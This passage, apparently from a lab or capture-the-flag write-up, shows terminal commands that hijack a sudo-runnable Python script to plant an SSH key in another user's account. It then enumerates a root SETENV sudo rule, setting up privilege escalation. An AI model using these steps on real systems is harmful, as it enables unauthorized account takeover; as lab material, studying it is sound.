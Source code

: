 ```powershell
Your public key has been saved in oliver.pub.
The key fingerprint is:
SHA256:zccpve3YN3moJLYeLENaXLL+EEXq/iJy2eGZ/RQhCJM ramsey@unbaked
The key's randomart image is:
+---[RSA 2048]----+
|      o.  .      |
|      Eo +       |
|        + + .    |
|       o B + o   |
|        S + *    |
|       *.o o +   |
|      .+*== + ...|
|    . + *B.* +.oo|
|     o . o=.+.o.o|
+----[SHA256]-----+

ramsey@unbaked:~$ mv vuln.py vuln.bak
ramsey@unbaked:~$ nano vuln.py

import os
os.system('mkdir /home/oliver/.ssh')
os.system('cp /home/ramsey/oliver.pub /home/oliver/.ssh/authorized_keys')

ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py
ramsey@unbaked:~$ chmod 600 oliver

ramsey@unbaked:~$ ssh -i oliver oliver@unbaked

oliver@unbaked:~$ whoami
oliver
oliver@unbaked:~$ id
uid=1002(oliver) gid=1002(oliver) groups=1002(oliver),1003(sysadmin)
oliver@unbaked:~$ pwd
/home/oliver
oliver@unbaked:~$ 
```

> **Privilege Escalation with Internal Logic & PYTHONPATH with SETENV Phase**
> 

```powershell
oliver@unbaked:~$ groups
oliver sysadmin
oliver@unbaked:~$ getent group sysadmin
sysadmin:x:1003:oliver
oliver@unbaked:~$ find / -type f -perm -u=s -user oliver -ls 2>/dev/null
oliver@unbaked:~$ find / -writable 2>/dev/null
/home/oliver
/home/oliver/.ssh
/home/oliver/.ssh/authorized_keys
/home/oliver/.cache
/home/oliver/.cache/motd.legal-displayed
/home/oliver/.nano
/home/oliver/.bashrc
/home/oliver/.profile

oliver@unbaked:~$ sudo -l
Matching Defaults entries for oliver on unbaked:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User oliver may run the following commands on unbaked:
    (root) SETENV: NOPASSWD: /usr/bin/python /opt/dockerScript.py
    
```
